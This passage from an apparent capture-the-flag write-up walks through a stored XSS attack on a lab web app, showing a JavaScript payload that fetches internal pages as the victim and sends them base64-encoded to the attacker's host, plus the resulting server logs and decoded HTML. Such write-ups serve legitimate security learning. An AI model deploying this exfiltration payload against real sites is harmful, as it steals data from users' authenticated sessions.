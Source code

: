 `/contact-responses` is probably where our message is displayed, so let's start by enumerating the `/wiki` endpoint by changing the payload in the `xss.js` file as follows:

```js
async function exfil() {
        const response = await fetch('/wiki');
        const text = await response.text();
        await fetch(`http://10.11.72.22/?data=${btoa(text)}`);
}

exfil();
```
{: file="xss.js" }

```console
10.10.165.202 - - [26/Dec/2024 15:41:04] "GET /xss.js HTTP/1.1" 200 -
10.10.165.202 - - [26/Dec/2024 15:41:04] "GET /?data=PCFE...KCgo= HTTP/1.1" 200 -
```

Decoding the response we got for the `/wiki` endpoint, we get yet another endpoint: `/wiki/new`.

```html
...
    <a class="btn-enlarge" href="/wiki/new">Create New WIKI</a>
...
```

Once again, we modify our payload to fetch this new endpoint:

```js
async function exfil() {
        const response = await fetch('/wiki/new');
        const text = await response.text();
        await fetch(`http://10.11.72.22/?data=${btoa(text)}`);
}

exfil();
```
{: file="xss.js" }

```console
10.10.165.202 - - [26/Dec/2024 15:43:03] "GET /xss.js HTTP/1.1" 200 -
10.10.165.202 - - [26/Dec/2024 15:43:04] "GET /?data=PCFE...sPgo= HTTP/1.1" 200 -
```

Decoding the response we get for the `/wiki/new` endpoint, we see a form that sends data to the `/wiki` endpoint with a `POST` request, including the `title` and `markdownContent` parameters.

```html
...
    <form action="/wiki" method="POST">
      <label>Title</label>
      <input type="text" name="title" required>
      <label>Content (Markdown)</label>
      <textarea name="markdownContent" required></textarea>
      <button type="submit">Create</button>
    </form>
...
```
